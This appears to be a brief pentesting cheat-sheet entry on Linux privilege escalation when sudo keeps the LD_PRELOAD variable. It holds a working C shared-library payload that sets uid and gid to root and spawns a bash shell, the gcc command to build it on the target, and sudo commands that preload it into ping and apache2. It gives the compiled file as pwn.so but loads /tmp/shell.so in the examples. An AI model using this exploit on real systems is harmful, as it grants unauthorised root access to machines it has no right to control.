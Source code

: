 # LD_PRELOAD

when running `sudo -l` we see the following included in the output:

```
env_keep+=LD_PRELOAD
```

With this included, we can privesc with any sudo command via the following

**pwn.c**

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

We compile it on the target

```bash
gcc -fPIC -shared -o pwn.so pwn.c -nostartfiles
```

Examples:

```
# ping
sudo LD_PRELOAD=/tmp/shell.so ping

# apache2
sudo LD_PRELOAD=/tmp/shell.so apache2 restart
```
